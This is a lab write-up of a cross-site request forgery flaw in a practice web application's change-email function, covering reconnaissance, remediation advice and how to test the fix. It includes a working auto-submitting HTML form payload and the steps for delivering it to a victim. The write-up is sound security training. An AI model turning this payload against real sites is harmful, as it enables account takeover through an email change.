



# Lab: CSRF vulnerability with no defenses (change email)


## 1) Reconnaissance & Findings

I logged in using the provided `wiener:peter` account and tested the change-email function. By inspecting the request in Burp, I confirmed:

- The action is performed via `POST /my-account/change-email`.
- The request contains **no CSRF token** (or any other unpredictable, user-specific parameter).
- The application identifies the user **solely via the session cookie**.

This combination satisfies the classic prerequisites for CSRF.

## 2) Weaponization (PoC)

If the victim is logged in, the browser may automatically attach the victim’s cookies to a cross-site request (depending on cookie/SameSite behavior). This makes it possible to trigger the email change via a malicious HTML form.

Using the lab’s Exploit Server, I prepared an auto-submitting PoC (the `action` host must match your lab instance):

```html
<html>
  <body>
    <h1>You are being hacked... Please wait!</h1>
    <form action="https://<LAB-ID>.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@hacker.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## 3) Exploitation

In the Exploit Server:

1. Paste the PoC into the `Body`.
2. Click `Store`.
3. Click `Deliver exploit to victim`.

If the victim bot is authenticated to the target, the exploit triggers `POST /my-account/change-email` and changes the email address.

## Evidence (ordered)

1. PoC stored in Exploit Server and delivered to the victim:



2. Account page shows the email has changed (result):



3. Burp shows the change-email request (`POST /my-account/change-email`):



## Impact

- The victim’s account email address can be changed to an attacker-controlled address.
- This can enable account takeover via password reset or related account recovery flows.

## Recommendation (Fix)

- Implement CSRF tokens on all state-changing endpoints.
- Use hardened cookies where appropriate: `SameSite=Lax/Strict`, `Secure`, `HttpOnly`.
- For sensitive actions, require re-authentication (e.g., password prompt / step-up auth).

## How to test the fix

- Re-run the Exploit Server PoC: the request should be rejected (e.g., 403/CSRF error) and the email must not change.
- Remove the token or send an invalid token: the action should still fail.
